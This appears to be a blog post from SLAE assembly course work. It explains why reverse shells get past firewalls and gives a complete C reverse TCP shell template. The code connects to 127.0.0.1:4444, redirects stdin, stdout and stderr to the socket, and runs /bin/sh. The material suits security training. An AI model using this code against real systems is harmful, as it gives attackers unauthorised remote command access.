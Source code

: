 ![Reverse Shell](/assets/images/reverse_shell.jpg)

Reverse shells have a significantly higher success rate than their bind shell counterparts due to the inherent nature of firewalls not filtering outbound connections. From the perspective of a firewall, a user would typically initiate outbound requests when browsing the web and related resources.

#### Reverse TCP Shell in C
--------

The following C skeleton code will be used to demonstrate the Reverse TCP shell from a high-level language perspective. 

This will be used as a template for the low-level assembly code to follow:

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void) {
    // Declare variables
    int sockfd;
    struct sockaddr_in serv_addr;
    // Create socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    // IP address family
    serv_addr.sin_family = AF_INET;
    // Destination IP address
    serv_addr.sin_addr.s_addr = inet_addr("127.0.0.1");
    // Destination port 
    serv_addr.sin_port = htons(4444);
    // Reverse connect to target IP address
    connect(sockfd, (struct sockaddr *)&serv_addr, sizeof(serv_addr));
    // Duplicate file descriptors for STDIN, STDOUT and STDERR 
    int i;
    for (i=0; i <= 2; i++){
        dup2(sockfd, i);
    }
    // Execute /bin/sh using execve  
    char *argv[] = {"/bin/sh", NULL};
    execve(argv[0], argv, NULL);
}
```


[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment1